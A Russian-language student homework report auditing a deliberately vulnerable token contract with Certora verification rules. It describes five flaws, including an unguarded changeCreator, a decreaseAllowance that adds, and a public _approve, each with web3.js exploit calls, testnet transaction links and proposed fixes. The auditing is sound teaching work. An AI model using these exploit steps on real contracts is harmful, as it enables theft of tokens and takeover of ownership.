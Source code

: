 ### Андрян Арсен Сёмаевич БПИ201 HW2
Написание правил \
Правила нахоядтся в ERC226.spec  \
  \
findChangeAllowance добавил из документации чисто по-кайфу  \
  \
a. Правило “Только создатель контракта может что-то сделать”:  \
i. Изменить создателя
onlyCreatorCanChangeCreator(нарушается, там нет чека на создателя, будет в уязвимостях далее)  \
ii. Изменить эмиссию токена  \
onlyCreatorCanMint (не нарушается)  \
b. Разрешения даются правильно:  \
  \
i. increaseAllowance увеличивает баланс  \
increaseAllowanceTest (не нарушается)  \
  \
ii. decreaseAllowance уменьшает баланс  \
decreaseAllowanceTest (нарушается, уязвимость)  \
  \
c. Параметрические правила  \
i. Определите, какие функции изменяют allowance
пользователя  \
Меняет только _approve, increaseAllowance, decreaseAllowance, approve, transferFrom это можно увидеть в таблице в результате после   \
```Results for findChangeAllowance:```
ii. Определите, какие функции изменяют _totalSupply
токена  \
Меняет только mint и burn это можно увидеть в таблице в результате после   \
```Results for findChangeTotalSupply:```

Анализ отчета
a. Провести анализ трассировки транзакции
Результат в Results.txt
b. Выделить ложные срабатывания
Не увидел ложных срабатываний кроме  \
 ```Violated     |1         |Assert message: Unwinding condition in a loop ```

В отчет certora.md привести ссылки на отчеты компании Certora  \
https://prover.certora.com/output/515271/494ebd28853a42fd8f3e57003ee74b9d/?anonymousKey=6f012457d22a7d2374a69a6557b86f2131923246  \

Уязвимости
Уязвимость 1  \
a. В changeCreator не проверяется авторство \
b. функция changeCreator не проверяет автора  \
c. воспользоваться ей просто напрямую вызвать  \
d. своруют авторство, заминтят токены, кто угодно ворует в общем  \
e. добавить модификатор onlyCreator да и аргумент с тем, кому права передать тоже добавить бы\
на практике 
```
var result = await contract.methods.creator().call();
    console.log('result1:', result);

    result = await contract.methods.changeCreator().send({
        from: wallet[0].address,
        gas: 30064,
    });
    console.log('result2:', result);
    result = await contract.methods.creator().call();
    console.log('result3:', result);
```
результат
```
result1: 0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98
result2: {
  some text
}
result3: 0xbC638bcE74a6C83CFE06Eb0dAe44F623daB42CA5
```
Сменил автора 
https://goerli.etherscan.io/tx/0x93662d305fc9bc5beb5fe2d3675727308392974056ca5625eb1e18a88cc2f889


Уязвимость 2  \
a. decreaseAllowance не работает \
b. функция decreaseAllowance не уменьшает, а вычетает  \
c. воспользоваться ей просто напрямую вызвать, когда у тебя уже есть немного разрешенных денег, тупо изниоткуда их генерировать
d. нельзя забрать возможность потратить деньги твои
e. поменять + на - в функции
```
_approve(owner, spender, currentAllowance + subtractedValue);
```
на ```currentAllowance - subtractedValue```
на практике
сначала минтим токен на адрес (баг и без минта работает, представляем ситуацию, что токены есть на адресе )
затем 
```
var result = await contract.methods.increaseAllowance('0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98', 5).send({
        from: wallet[0].address,
        gas: 30064,
    });
```
а потом баг юзаем
```
var result = await contract.methods.decreaseAllowance('0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98', 5).send({
        from: wallet[0].address,
        gas: 30064,
    });
```
и чекаем
```
result = await contract.methods.allowance(wallet[0].address, '0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98').call();
    console.log('result2:', result);
```
результат 10
https://goerli.etherscan.io/tx/0x4c757001a93ef977230cc9798f6d53482a497e01bad93bd93e5b0bece7234ab1
https://goerli.etherscan.io/tx/0x18020aa89f3d6fa46e32d1192c0b855ef78dbfc8ea905dd31b48a0b248cec0b4

Уязвимость 3  \
a. transferFrom кривоват \
b. пусть есть allowance но нет баланса, мы пытаемся перевести, перевести он не даст, т.к. нет денег, а allowance потратится  \
c. воспользоваться не знаю как, когда ты сам управляешь дачей возможности потратить твои деньги, но чисто теоритически можно отловить момент, когда выводятся деньги через transferfrom и вывести раньше так (с большей комиссией), что дача такой возможности пропадет просто так, но звучит бредово и бессмысленно  \
d. человек, кто может потратить твои деньги по итогу не может их потртатить и теряется данной возможности -> кинут
e. возвращать allowance обратно когда не прошла транза по отсутствии баланса
не стал повторять, т.к. не имеет смысла  \

Уязвимость 4  \
a. _approve доступен извне   \
b. просто можно приватную функцию вызвать и allowance начитерить  \
c. просто в скрипте вызываем функцию и можем тратить чужие деньги  \
d. человек просто вызывает эту фукнцию from кошелек откуда воруем to куда воруем и потом выводит чужие токены
e. сделать функцию internal  \

как вызвать

https://goerli.etherscan.io/tx/0xe701a9fac92c43351a3328680ed8ec466f2391a563b184c64ef1a94458030caa
 ```
var result = await contract.methods._approve('0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98', wallet[0].address, 100).send({
    from: wallet[0].address,
    gas: 60064,
});
result = await contract.methods.allowance('0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98', wallet[0].address).call();
```
результат 100
и потом просто через transferFrom воруем ))))

Уязвимость 5  \
a. stopToken без onlyCreator
b. дырявая функция stopToken
c. просто вызываем функцию останавливаем токен)
d. перебои в работе токена 
e. сделать функцию stopToken с модификатором onlyCreator
просто беру и останавливаю токен в наглую )
у меня баланс на тестнете закончился)))))))

https://goerli.etherscan.io/tx/0x9d1d0122f2f905da1e7f8fc6caff66e72f557cef9b1b28615770868f55a5e2b2
(это бывший контракт крейтор, его авторство я уже своровал до этого)
```
var result = await contract.methods.stopToken().send({
    from: wallet[0].address,
    gas: 70064,
});
//result = await contract.methods.('0x2D1355DaDc54d93b3132BBF11e2eEF8E7A68dF98', wallet[0].address).call();
console.log('result2:', result);
```